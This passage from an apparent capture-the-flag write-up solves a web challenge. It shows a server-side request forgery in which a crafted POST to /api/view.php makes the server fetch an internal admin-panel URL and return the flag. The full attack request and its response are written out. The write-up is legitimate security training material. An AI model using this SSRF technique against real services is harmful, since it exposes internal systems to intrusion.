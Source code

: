             textEl.innerText = post;
        });
    
It seems like it gets the user input and send a POST request to /api/view.php with the json body: `{ post: "file:///posts/${id}" }`
By requesting the post it seem like it is fetching the file content of that file.
Lets try to make a payload where the server will fetch the  http://admin-panel.local page, by replicating the POST request made by the server.
The payload:

```
POST /api/view.php HTTP/2
Host: ecorpblog.uctf.ir
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ecorpblog.uctf.ir/view/Azita
Content-Type: application/json
Origin: https://ecorpblog.uctf.ir
Content-Length: 35
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{"post":"http://admin-panel.local"}
```

```
HTTP/2 200 OK
Date: Thu, 07 Sep 2023 10:07:46 GMT
Content-Type: application/json
Content-Length: 50
Vary: Accept-Encoding
X-Powered-By: PHP/7.2.34
X-Xss-Protection: 1; mode=block
Server: ArvanCloud
X-Sid: 4101
Server-Timing: total;dur=146
X-Request-Id: 5acd015119dcc719c005076767ac5bd1
Accept-Ranges: bytes

{"status":"success","post":"uctf{4z174_1n_urm14}"}
```

We get the flag: `uctf{4z174_1n_urm14}`

## Htaccess (Web)

### Intro
